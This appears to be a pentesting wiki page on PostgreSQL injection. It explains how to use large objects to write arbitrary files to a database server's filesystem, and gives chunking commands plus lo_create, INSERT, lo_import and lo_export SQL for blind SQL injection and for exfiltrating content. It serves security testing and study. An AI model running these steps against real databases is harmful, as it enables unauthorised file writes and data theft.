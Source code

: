 ```yaml
---
layout: page
title: PostgreSQL Large Objects
description:
tags:
category: Postgresql-injection
toc:
  sidebar: left
---
```


### PostgreSQL Large Objects

PostgreSQL offers a structure known as **large objects**, accessible via the `pg_largeobject` table, designed for storing large data types, such as images or PDF documents. This approach is advantageous over the `COPY TO` function as it enables the **exportation of data back to the file system**, ensuring an exact replica of the original file is maintained.

For **storing a complete file** within this table, an object must be created in the `pg_largeobject` table (identified by a LOID), followed by the insertion of data chunks, each 2KB in size, into this object. It is crucial that these chunks are exactly 2KB in size (with the possible exception of the last chunk) to ensure the exporting function performs correctly.

To **divide your binary data** into 2KB chunks, the following commands can be executed:

```bash
split -b 2048 your_file # Creates 2KB sized files
```

For encoding each file into Base64 or Hex, the commands below can be used:

```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```

**Important**: When automating this process, ensure to send chunks of 2KB of clear-text bytes. Hex encoded files will require 4KB of data per chunk due to doubling in size, while Base64 encoded files follow the formula `ceil(n / 3) * 4`.

The contents of the large objects can be viewed for debugging purposes using:

```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```

#### Using `lo_creat` & Base64

To store binary data, a LOID is first created:

```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```

In situations requiring precise control, such as exploiting a Blind SQL Injection, `lo_create` is preferred for specifying a fixed LOID.

Data chunks can then be inserted as follows:

```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```

To export and potentially delete the large object after use:

```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```

#### Using `lo_import` & Hex

The `lo_import` function can be utilized to create and specify a LOID for a large object:

```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```

Following object creation, data is inserted per page, ensuring each chunk does not exceed 2KB:

```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```

To complete the process, the data is exported and the large object is deleted:

```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```

### Limitations

It's noted that **large objects may have ACLs** (Access Control Lists), potentially restricting access even to objects created by your user. However, older objects with permissive ACLs may still be accessible for content exfiltration.
